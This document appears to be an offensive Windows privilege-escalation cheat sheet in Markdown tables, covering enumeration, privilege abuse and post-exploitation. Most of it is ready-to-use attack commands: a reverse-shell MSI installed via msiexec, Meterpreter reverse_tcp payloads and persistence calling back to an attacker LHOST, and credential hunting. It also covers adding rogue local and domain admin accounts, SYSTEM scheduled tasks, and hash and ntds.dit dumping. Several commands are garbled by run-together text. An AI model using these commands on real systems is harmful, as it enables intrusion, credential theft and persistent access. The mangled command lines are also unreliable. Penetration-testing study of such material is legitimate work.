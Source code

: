 ### 🧭 **Initial Enumeration**

| Category | Command/Tool | Notes |
| --- | --- | --- |
| **Domain Enum (if joined)** | `BloodHound / SharpHound` | Run via `Invoke-BloodHound -CollectionMethod All -Domain <domain>` |
| **Current User** | `whoami`, `echo %username%` | `whoami /groups` → Group membership |
| **Privileges** | `whoami /priv` | Look for `SeImpersonate`, `SeAssignPrimaryToken`, etc. |
| **System Info** | `systeminfo` | Look for hotfixes, uptime, domain, arch |
|  | `wmic os get Caption,CSDVersion,OSArchitecture,Version` | Less verbose alternative to `systeminfo` |
| **Services** | `wmic service get name,startname`, `net start` | Look for custom services or weak paths |
| **Admin Check** | `net localgroup administrators`, `net user` | Verify if current user is in admin group |
| **Network** | `netstat -anoy` | Show ports, PIDs, state |
|  | `route print`, `arp -A`, `ipconfig /all` | Check routing, ARP cache, DNS, gateways |
| **Users** | `net users`, `net user <name>`, `net localgroup` | Look for unused accounts, role abuse |
| **Firewall** | `netsh advfirewall firewall show rule name=all` | Look for open ports allowed in/out |
| **Scheduled Tasks** | `schtasks /query /fo LIST /v > schtasks.txt` | Use `taskschd.msc` GUI (if accessible) for quicker analysis |

---

### 🔐 **Installation Rights (AlwaysInstallElevated)**

```bash
bash
CopyEdit
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

```

> 💥 If both are 0x1, build a reverse shell MSI and execute via:
> 

```bash
bash
CopyEdit
msiexec /quiet /qn /i evil.msi

```

---

### 📚 **Windows Privilege Escalation PoCs (by Se*Privilege)**

| Privilege | GitHub PoC |
| --- | --- |
| **SeImpersonatePrivilege** | ⭐ [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) |
| **SeDebugPrivilege** | [SeDebugExploit](https://github.com/bruno-1337/SeDebugPrivilege-) |
| **SeAssignPrimaryToken / SeIncreaseQuota / SeSystemEnvironment / SeMachineAccount** | [HackTricks](https://github.com/b4rdia/HackTricks) |
| **SeTcb / SeCreateToken / SeTakeOwnership / SeRestore** | [token-priv](https://github.com/hatRiot/token-priv) |
| **SeLoadDriver** | [SeLoadDriver PoC](https://github.com/k4sth4/SeLoadDriverPrivilege) |
| **SeBackup / SeRelabel / SeManageVolume** | [CsEnox Exploit](https://github.com/CsEnox/SeManageVolumeExploit) |
| **SeTrustedCredManAccess** | [MS Docs](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) |

🔍 Use `whoami /priv` to check what you have.

---

### 🧪 **Maintaining Access – Meterpreter Examples**

| Task | Command |
| --- | --- |
| **Reverse Shell Setup** | `set PAYLOAD windows/meterpreter/reverse_tcpset LHOST`, `LPORT`, then `exploit` |
| **Persistence** | `run persistence -U -i 5 -p 443 -r <LHOST>` |
| **Port Forwarding** | `portfwd add -l 3306 -p 3306 -r <target_ip>` |
| **Process Migration** | `run post/windows/manage/migrate`, `migrate <PID>` |
| **Run Custom Payloads** | `powershell.exe "C:\Tools\privesc.ps1"` |

---

### 🧰 **Privilege Escalation Checklist**

| Category | Command/Tip |
| --- | --- |
| **Unquoted Service Paths** | `wmic service get name,displayname,pathname,startmode |
| **Weak Service Permissions** | `accesschk.exe -uwcqv <service>sc qc <service>icacls C:\Path\To\Service.exe` |
| **Clear Text Credentials** | `findstr /si password *.txt *.xml *.inidir /s *cred* *pass* *.config*` |
| **Weak File Permissions** | `accesschk.exe -uwqs Users c:\*.*accesschk.exe -uwqs "Authenticated Users" c:\*.*` |
| **Add Local Admin** | `net user siren P@ssw0rd! /addnet localgroup administrators siren /add` |
| **Add Domain Admin** | `net group "Domain Admins" siren /add /domain` |
| **File Transfers** | `certutil.exe`, `powershell (IEX)`, `tftp`, `ftp`, `python -m http.server`, SMB |

---

### 📅 **Scheduled Task Abuse**

| Action | Command |
| --- | --- |
| **Enumerate** | `schtasks /query /fo LIST /v > tasks.txt` |
| **Create** | `schtasks /create /ru SYSTEM /sc MINUTE /mo 5 /tn RUNME /tr "C:\Tools\sirenMaint.exe"` |
| **Run Now** | `schtasks /run /tn "RUNME"` |

---

### 🔍 **Post-Exploitation Enumeration**

| Action | Command |
| --- | --- |
| **Network Users** | `net user`, `net localgroup administrators`, `net user <target>` |
| **Access Checks** | `accesschk.exe /accepteula`, `whoami`, `groups` |
| **Dump Hashes** | `meterpreter > hashdump` |
| **Dump ntds.dit** | `secretsdump.py` or disk copy via VSS |
| **Share Enumeration** | `net share`, `net use`, `net use Z: \\TARGET\SHARE /persistent:yes` |

---

### 🧪 **Tools & Resources**

| Tool | Purpose |
| --- | --- |
| [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) | Offline patch diff checker |
| [FuzzySecurity Priv Esc Guide](https://www.fuzzysecurity.com/tutorials/16.html) | Popular escalation reference |
| [HackTricks Windows Priv Esc](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation) | Modern, up-to-date tricks |
| `mingw-w64` | Compile Windows payloads on Linux:`x86: i686-w64-mingw32-gcc shell.c -o shell.exex64: x86_64-w64-mingw32-gcc shell.c -o shell64.exe` |
